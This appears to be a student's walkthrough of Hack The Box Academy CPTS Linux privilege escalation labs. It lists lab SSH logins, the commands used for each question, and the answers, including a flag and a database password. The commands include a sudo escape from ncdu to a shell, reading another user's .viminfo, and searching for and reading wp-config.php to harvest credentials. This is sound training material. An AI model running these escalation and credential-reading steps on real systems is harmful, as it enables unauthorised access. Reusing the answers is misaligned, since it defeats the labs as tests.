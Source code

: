 ```yaml
---
title: CPTS labs - 24 Linux Privilege Escalation
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 24 Linux Privilege Escalation

Module: [Linux Privilege Escalation](https://academy.hackthebox.com/module/51)

### Information Gathering

SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!".
Enumerate the Linux environment and look for interesting files that might contain sensitive data. Submit the flag as the answer.

```
ssh htb@$ip
sudo -l
sudo -u lab_adm /bin/ncdu
# Escape to gain a shell with keyboard "b"

# After enumerating for a while
cd /home/labadm
cat .viminfo
# Note the file /usr/lib/int-check.sh within the .viminfo
cat /usr/lib/int-check.sh
```

Results: HTB{1nt3rn4l_5cr1p7_l34k}


**What is the latest Python version that is installed on the target?**

```
ls -la /etc/python* 
```

Results: 3.11


SSH to (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!". Find the WordPress database password.

```
ssh htb@$ip
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
# Note  /var/www/html/wp-config.php listed
cat  /var/www/html/wp-config.php
```

Results: W0rdpr3ss_sekur1ty!


### Environment-based Privilege Escalation

**SSH to (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!". Review the PATH of the htb-student user. What non-default directory is part of the user's PATH?**

```
echo $PATH
# Output: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp
```

Results: /tmp

